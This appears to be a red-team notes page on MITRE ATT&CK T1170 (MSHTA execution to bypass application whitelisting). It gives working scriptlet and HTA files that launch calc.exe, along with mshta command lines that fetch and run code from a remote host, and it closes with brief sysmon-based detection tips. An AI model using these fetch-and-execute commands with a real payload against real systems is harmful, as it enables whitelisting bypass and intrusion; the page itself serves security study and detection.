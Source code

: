 ```yaml
---
description: MSHTA code execution - bypass application whitelisting.
---
```


# T1170: MSHTA

## Execution

Writing a scriptlet file that will launch calc.exe when invoked:

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Invoking the scriptlet file hosted remotely:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

As expected, calc.exe is spawned by mshta.exe. Worth noting that mhsta and cmd exit almost immediately after invoking the calc.exe:

![](../.gitbook/assets/mshta-calc.png)

As a defender, look at sysmon logs for mshta establishing network connections:

![](../.gitbook/assets/mshta-connection.png)

Also, suspicious commandlines:

![](../.gitbook/assets/mshta-commandline.png)

## Bonus

The hta file can be invoked like so:

```csharp
mshta.exe http://10.0.0.5/m.hta
```

![](../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself, launching it and clicking run:

![](../.gitbook/assets/mshta-url.png)

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1170" %}

